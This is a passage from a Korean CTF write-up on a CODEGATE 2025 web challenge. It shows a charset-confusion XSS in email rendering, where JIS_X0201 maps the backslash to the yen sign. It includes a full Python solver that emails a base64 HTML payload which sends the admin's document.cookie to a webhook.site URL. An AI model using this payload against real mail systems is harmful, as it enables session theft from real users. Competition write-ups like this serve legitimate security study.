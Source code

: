 \이 ¥으로 매핑됨

![JIS_X0201 charset을 사용 시 alert(1)이 성공적으로 트리거됨](/[KR]%202025%20CODEGATE%20CTF%20Web%20Challenges%20Writeup%2025595ea211f580cca84cefe7f436db5f/image%2020.png)

JIS_X0201 charset을 사용 시 alert(1)이 성공적으로 트리거됨

이제 스크립트를 통해 쿠키 값을 내 webhook 사이트로 가지고 오면 최종적으로 챌린지를 해결할 수 있다.

## Solver

최종 PoC는 아래와 같다.

```python
import smtplib
from email.message import EmailMessage
import base64

SMTP_HOST = "127.0.0.1"
SMTP_PORT = 25
USERNAME  = "test@securemail.com"
PASSWORD  = "test123456"

msg = EmailMessage()
msg["Subject"] = "\x1b(Jpayload"
msg["From"]    = USERNAME
msg["To"]      = "admin@securemail.com"
content = """<style>\x1b(J ";location.href='https://webhook.site/c9b79407-0e3d-41ce-a5bd-ccd1ba099ef0/?q='+document.cookie//</style>"""
b64_text = base64.b64encode(content.encode()).decode()
msg.set_payload(b64_text)
msg["Content-Type"]              = 'text/html; charset=JIS_X0201'
msg["Content-Transfer-Encoding"] = 'base64'

with smtplib.SMTP(SMTP_HOST, SMTP_PORT, timeout=10) as s:
    s.ehlo()
    if s.has_extn("STARTTLS"):
        s.starttls()
        s.ehlo()
    s.login(USERNAME, PASSWORD)
    s.send_message(msg)

print("Complete!")
```

![flag획득](/[KR]%202025%20CODEGATE%20CTF%20Web%20Challenges%20Writeup%2025595ea211f580cca84cefe7f436db5f/image%2021.png)

flag획득

JIS_X0201 charset 이외에도 `x-MacRoman`, `x-MacArabic` 등 x-Mac으로 시작하는 charset도 가능했다.

![JIS_X0201이외에 x-Mac으로 시작되는 charset](/[KR]%202025%20CODEGATE%20CTF%20Web%20Challenges%20Writeup%2025595ea211f580cca84cefe7f436db5f/image%2022.png)

JIS_X0201이외에 x-Mac으로 시작되는 charset
